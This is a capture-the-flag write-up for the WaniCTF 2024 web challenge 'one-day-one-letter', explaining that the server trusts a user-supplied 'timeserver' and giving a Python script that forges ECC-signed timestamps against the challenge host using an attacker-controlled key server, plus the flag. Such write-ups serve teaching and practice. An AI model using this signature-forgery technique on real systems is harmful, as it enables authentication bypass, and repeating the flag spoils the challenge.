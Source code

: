 ```yaml
---
layout: post
title:  "one day one letter - wanictf 2024"
date:   2024-06-29 00:00:00 -0400
---
```


https://ctftime.org/event/2377

# one-day-one-letter (web)

The challenge consists of two servers, one that display some content and one that host both
the private and public keys.
The server doesnt validade the "timeserver" parameter though so we can just create our own pair of keys
and point to our server.

## Solution

```python
#!/usr/bin/env python3
import requests

from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import time

# gen key
# key = ECC.generate(curve='p256')
# open("key.txt", "w").write(key.export_key(format='PEM'))
# pubkey = key.public_key().export_key(format='PEM')
# open("pub.txt", "w").write(pubkey)
# host with whatever

REMOTE = "https://web-one-day-one-letter-content-lz56g6.wanictf.org/"

def make_body(adjust):
    key = open("key.txt", "rb").read()

    timestamp = str(int(time.time()) + adjust).encode("utf-8")
    h = SHA256.new(timestamp)
    key = ECC.import_key(key)
    signer = DSS.new(key, "fips-186-3")
    signature = signer.sign(h)
    return (timestamp, signature)

for i in range(0, 12):
    timestamp, signature = make_body(-90000 * i) 

    res = requests.post(
        REMOTE,
        json={
            "timestamp": timestamp.decode(),
            "signature": signature.hex(),
            "timeserver": "<hostname>",
        },
    )
    print(f"DEBUGPRINT[1]: solve.py:27: res.text={res.text}")
```

## Flag
`FLAG{lyingthetime}`

shafouz 2024/06/23
